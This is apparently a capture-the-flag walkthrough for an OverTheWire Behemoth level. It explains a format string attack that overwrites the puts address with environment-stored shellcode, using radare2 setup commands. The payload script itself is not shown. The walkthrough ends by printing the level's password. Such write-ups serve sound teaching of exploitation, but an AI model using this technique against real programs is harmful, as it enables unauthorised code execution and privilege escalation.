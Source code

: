 ```yaml
---
layout: default
title: behemoth4
---
```


# behemoth level4 Solution


first i created `profile.rr2` file and put the follow content in it:
```
program=/behemoth/behemoth3
stdin=input
```

then, i inserted the payload into the input file:
```
python3 payload.py > input
```

and then, when i want to debug with r2 and the given input, i can run this line: 
```
r2 -e dbg.profile=profile.rr2
```
first, we can see that the binary doesn't use ASLR, and also the relro is turned off.
![alt text](./images/level4_1.png)

so, let's try to use the format string attack to override the address of the puts function to our shellcode address.

find the address to override:
![alt text](./images/level4_2.png)
![alt text](./images/level4_3.png)
so, the address is: `0x0804b218`
the address we want to insert is: `0xffffd53f` (same as last level, put shellcode on env, and find its address)

the python script for creating the payload can is here: [level4.py]
```python
% scripts/level4.py
```


after building the payload, all left is to run this:
```
(python3 payload.py;cat) | /behemoth/behemoth3
```

and then
```
cat /etc/behemoth_pass/behemoth4
hpjUdlG723
```

**Flag:** ***`hpjUdlG723`*** 
